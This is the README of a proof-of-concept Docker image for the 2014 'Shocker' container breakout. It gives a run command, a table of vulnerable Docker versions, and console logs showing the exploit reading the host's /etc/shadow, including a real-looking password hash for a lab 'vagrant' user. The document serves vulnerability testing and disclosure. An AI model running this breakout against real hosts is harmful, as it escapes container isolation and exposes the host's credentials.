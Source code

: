 # Shocker / Docker Breakout PoC

This is a Docker Image used to test container breakout exploit first posted here:
http://stealth.openwall.net/xSports/shocker.c

The container will attempt to find and print contents of the Docker host's /etc/shadow.

## Usage

To run the PoC exploit use:

    docker run gabrtv/shocker

## Building

To modify source and rebuild, use:

    docker build -t gabrtv/shocker .

## Vulnerability Matrix

Simple table outlining vulnerability to **this particular** exploit.  PRs welcome!

| Docker Version | Docker Host OS    | Vulnerable? |
| -------------- | ----------------- | ----------- |
| 0.8.1          | Ubuntu 12.04 LTS  | Yes         |
| 0.10.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.0         | Ubuntu 12.04 LTS  | Yes         |
| 0.11.1         | Ubuntu 12.04 LTS  | Yes         |
| 0.12.0         | Ubuntu 12.04 LTS  | No          |
| 1.0            | Ubuntu 12.04 LTS  | No          |

## Examples

Confirmed vulnerable: Docker 0.11.1 running Ubuntu 12.04 LTS

```
root@precise64:~# docker version
Client version: 0.11.1
Client API version: 1.11
Go version (client): go1.2.1
Git commit (client): fb99f99
Server version: 0.11.1
Server API version: 1.11
Git commit (server): fb99f99
Go version (server): go1.2.1
Last stable version: 1.0.0, please update docker

root@precise64:~# docker info
Containers: 6
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 22
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found vmlinuz
[*] Found vagrant
[*] Found lib64
[*] Found usr
[*] Found ...
[*] Found etc
[+] Match: etc ino=3932161
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found timezone
[*] Found cron.hourly
...
[*] Found skel
[*] Found shadow
[+] Match: shadow ino=3935729
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xf1, 0x0d, 0x3c, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:!:15597:0:99999:7:::
daemon:*:15597:0:99999:7:::
bin:*:15597:0:99999:7:::
sys:*:15597:0:99999:7:::
sync:*:15597:0:99999:7:::
games:*:15597:0:99999:7:::
man:*:15597:0:99999:7:::
lp:*:15597:0:99999:7:::
mail:*:15597:0:99999:7:::
news:*:15597:0:99999:7:::
uucp:*:15597:0:99999:7:::
proxy:*:15597:0:99999:7:::
www-data:*:15597:0:99999:7:::
backup:*:15597:0:99999:7:::
list:*:15597:0:99999:7:::
irc:*:15597:0:99999:7:::
gnats:*:15597:0:99999:7:::
nobody:*:15597:0:99999:7:::
libuuid:!:15597:0:99999:7:::
syslog:*:15597:0:99999:7:::
messagebus:*:15597:0:99999:7:::
ntp:*:15597:0:99999:7:::
sshd:*:15597:0:99999:7:::
vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
vboxadd:!:15597::::::
statd:*:15597:0:99999:7:::
```

Exploit fails on Docker 0.12:

```
root@precise64:~# docker version
Client version: 0.12.0
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 14680bf
Server version: 0.12.0
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 14680bf

root@precise64:~# docker info
Containers: 5
Images: 10
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Dirs: 20
Execution Driver: native-0.2
Kernel Version: 3.8.0-42-generic
WARNING: No swap limit support

root@precise64:~# docker run gabrtv/shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[-] open_by_handle_at: Operation not permitted
```

## License

BSD
